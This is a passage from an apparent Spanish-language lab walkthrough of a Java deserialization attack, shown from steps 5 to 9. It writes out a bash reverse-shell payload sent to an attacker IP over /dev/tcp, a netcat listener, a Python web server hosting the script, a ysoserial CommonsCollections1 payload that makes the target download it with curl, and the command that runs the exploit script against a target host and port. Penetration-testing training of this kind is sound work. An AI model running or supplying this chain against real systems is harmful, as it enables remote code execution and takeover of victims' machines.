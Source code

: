 ```
print('received "%s"' % data)

sock.close()
```

Paso 5: Crear una carga útil de shell inverso.

Copie y pegue el comando en un archivo y guárdelo como shell.sh.

Sintaxis:

```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

Mandar:

```
bash -i >& /dev/tcp/192.24.161.2/9999 0>&1
```

Paso 6: Configura un agente de escucha Netcat que escuchará las conexiones en el puerto 9999.

Mandar:

```
nc -lvp 9999
```

Paso 7: Aloje el archivo shell.sh usando un Python SimpleHTTPServer. En el mismo directorio donde está presente el archivo, ejecute lo siguiente.

Mandar:

```
python -m SimpleHTTPServer 8888
```

Paso 8: Genere una carga útil con un archivo ysoserial y haga que la máquina de destino descargue el archivo shell.sh de la máquina atacante.

Mandar:

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "curl http://192.24.161.2:8888/shell.sh -o /tmp/shell.sh" > /root/payload.out
```

Paso 9: Ejecute el código de explotación de Python.

Uso: python exploit.py \</path/to/payload>

Mandar:

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```

Este resultado del servidor python muestra que shell.sh archivo es descargado por la máquina de destino y que la carga útil funciona como se esperaba.

Tenemos que ejecutar el exploit de python dos veces más para ejecutar el script bash en la máquina de destino.
